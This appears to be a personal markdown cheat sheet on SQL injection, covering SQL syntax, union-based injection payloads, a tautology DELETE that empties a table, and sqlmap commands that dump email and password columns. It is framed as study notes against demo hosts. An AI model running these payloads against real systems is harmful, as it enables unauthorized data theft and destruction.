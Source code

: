 #### SQL Injection
* Allows user to execute SQL statements on the vulnerable server.

##### SELECT Statement
```
SELECT <column list> FROM <table> WHERE <condition>
```  
```
SELECT 22, 'string', 0x12, 'another string'
```  
  
##### UNION COMMAND
```
<SELECT STATEMENT 1 > UNION <SELECT STATEMENT 2>;
```
##### Comments
```
SELECT field FROM table; # test comment
SELECT field FROM table; -- test another comment  
```

  
![Screenshot at 2022-12-25 09-01-34](https://user-images.githubusercontent.com/85208639/209456088-7508953a-442e-4aae-bc4e-2ab6a5bbafec.png)


##### Extracting 1st Column of Product Field
```
SELECT Name, Description FROM Products WHERE ID='1'--
```


![Screenshot at 2022-12-25 09-09-04](https://user-images.githubusercontent.com/85208639/209456143-e1ea043b-9c88-4497-9f3d-386474e6a30f.png)

##### Common Locations To Check For SQLi
> Check places that take users input like Cookies, User-Agent, Accept-Language, GET, POST params, etc.

>Inject params with "'"  

##### Exploiting UNION BASED SQLi

```
id='UNION SELECT null;-- - >> Error

Finding No of Fields
id='UNION SELECT null,null,null;-- - >> Use Hit and Trial until something changes

id='UNION SELECT null,null;-- - >> Change is Seen

id='UNION SELECT 'foo','bar';-- - >> Check reflected Field lets assume foo gets reflected. 
```

##### Quering User
```
id='UNION SELECT user(), 'bar';-- - >> user@localhost
```
#### DELETE Statement 
```
DELETE description FROM items WHERE id=value

DELETE description FROM items WHERE id='1' or '1'='1'; >> DELETE every thing 
```

##### Automating UNION Based Injection With SQLMAP
```
sqlmap -u "demo.site" -p search --technique=U -v3

-v3 - Shows Payload Used by SQLMAP 
```

* --dbs > Enumerate database 

```
xyz
information_schema
```
```
sqlmap -u 'demo.local' --technique=U -D xyz --tables >> Queries tables for database name xyz
```

###### Output 
```
a
b
c
d
```

##### Dump Columns
```
sqlmap -u 'demo.local' --technique=U -D xyz -T b --columns
```

###### Output 
```
email
password
```

##### Dump Columns
```
sqlmap -u 'demo.local' --technique=U -D xyz -T b -C email,password --dump
```
